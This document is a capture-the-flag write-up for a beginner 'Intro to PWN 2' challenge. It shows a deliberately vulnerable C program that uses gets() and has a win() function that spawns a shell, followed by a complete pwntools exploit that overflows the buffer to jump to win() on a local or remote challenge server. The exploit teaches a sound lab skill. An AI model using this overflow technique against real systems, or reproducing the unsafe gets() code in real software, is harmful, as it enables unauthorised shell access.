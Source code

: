 ## Intro to PWN 2

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  NX is enabled but PIE is not.  This means we can put static addresses into our exploit.  We have source code.  Lets view it.

#### main.c
```C
#include <stdlib.h> 
#include <stdio.h> 

void win(){ 
    system("/bin/sh"); 

} 

void vuln(){
    char buf[55]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 2: Control the IP\n"); 
    vuln(); 
    return 0; 
} 
```

This time we need to jump to the win() function to get a shell. Here is what the stack looks like for vuln.

![stack_frame](./screenshots/stack_frame.png)

We need to skip 67 bytes then append the address of win() in little endian.  Use objdump to get the address of win().

![jump_address](./screenshots/jump_address.png)

Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 22209)

payload =  b""
payload += b"A"*0x43
payload += p32(binary.sym.win)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!